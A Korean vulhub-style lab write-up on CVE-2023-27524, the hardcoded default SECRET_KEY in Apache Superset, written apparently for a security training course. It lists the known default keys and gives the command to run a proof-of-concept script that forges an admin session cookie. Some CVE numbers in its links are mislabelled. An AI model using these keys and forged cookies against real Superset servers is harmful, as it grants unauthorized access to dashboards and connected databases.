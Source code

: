 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
> 화이트햇 스쿨 3기 23반 노은서 [Github 링크](https://github.com/nes1049/whitehat-school-vulhub/tree/main/superset/CVE-2023-27524)

[영문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) [중문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.zh-cn.md) 

<br/>

## 개요

- 데이터 시각화 오픈소스 플랫폼인 Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 존재
- Superset은 세션 쿠키를 서명하는 데 사용되는 SECRET_KEY 값을 기본값으로 제공함
- 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하고 임의의 사용자 또는 관리자 권한을 가진 사용자로 인증할 수 있음
- 이를 통해 공격자는 Superset 대시보드, 연결된 데이터베이스에 무단으로 접근할 수 있음
- Python pickle 취약점인 [CVE-2023-27941](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) 과 결합되면 인증 우회 후 역직렬화 취약점을 통해 원격 코드 실행까지 가능

<br/>

## 환경 구성

명령어를 사용해 Apache Superset 2.0.1 서버를 시작

```
docker compose up -d
```

- 서버를 열면, `http://your-ip:8088`를 통해 Superset 서버에 접속 가능
- default 로그인: admin / vulhub 

<br/>

## PoC

Superset은 다음과 같은 `SECRET_KEY` 값 중 하나를 기본값으로 하드코딩해 사용함으로써 취약점 발생 원인을 제공함:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

<br/>

다음 명령어로 [CVE-2023-27524.py](CVE-2023-27524.py)를 실행해 관리자의 세션(user_id=1)으로 위조된 쿠키를 생성

```bash
# 의존성 패키지 설치치
pip install -r requirements.txt

# user_id=1인 세션 쿠키 생성
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

- 이 스크립트는 알려진 디폴트 SECRET_KEY 값들을 이용해 세션 쿠키의 크랙을 시도함
- 크랙에 성공하면, user_id=1(일반적으로 관리자)인 새로운 세션 쿠키를 생성해 로그인 인증

<br/>

![](1.png)

이 JWT 토큰을 GET 메소드의 HTTP 헤더에 넣으면 `Cookie: session=eyJ...`, Superset 서버의 backend endpoint (데이터베이스)에 접근이 가능

<br/>

![](2.png)

<br/>

## 참고 문헌

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

